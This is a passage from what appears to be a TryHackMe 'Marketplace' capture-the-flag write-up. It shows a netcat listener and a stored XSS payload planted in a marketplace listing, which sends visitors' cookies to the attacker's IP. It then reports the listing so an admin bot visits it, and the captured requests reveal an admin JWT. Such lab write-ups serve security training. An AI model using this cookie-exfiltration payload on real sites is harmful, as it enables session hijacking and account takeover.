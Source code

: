 First, we set up a listener

```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ nc -lvnp 4444           
listening on [any] 4444 ...
```

Next, we create a new listing with the below payload.  This will send the cookie to our listener.

```
<script>document.location='http://10.13.18.7:4444/?cookie='+document.cookie</script>
```

Sure enough, I see my own cookie in a request when I try to access the listing.

```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.13.18.7] 60188
GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiYmxhaCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjQwMzA5Njk1fQ.H7yYFLTLlrGCB_bOOvIr2_zQFeYOv-pr7GPlMmQn9CU HTTP/1.1
Host: 10.13.18.7:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.33.229/
Upgrade-Insecure-Requests: 1
```

Unfortunately I can't get to the listing to select the report option, so I instead browse to /report/6 (where 6 is the number of my listing).

Make sure the listener is started again, and report the listing.  Sure enough, we soon get a new cookie logged to our listener.

```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.13.18.7] from (UNKNOWN) [10.10.33.229] 56864
GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDAzMTA0NTd9.PyLn8bpfzabztexB2rhyA0jeXcuc5aDg4J_mUst02dk HTTP/1.1
Host: 10.13.18.7:4444
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://localhost:3000/item/6
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```
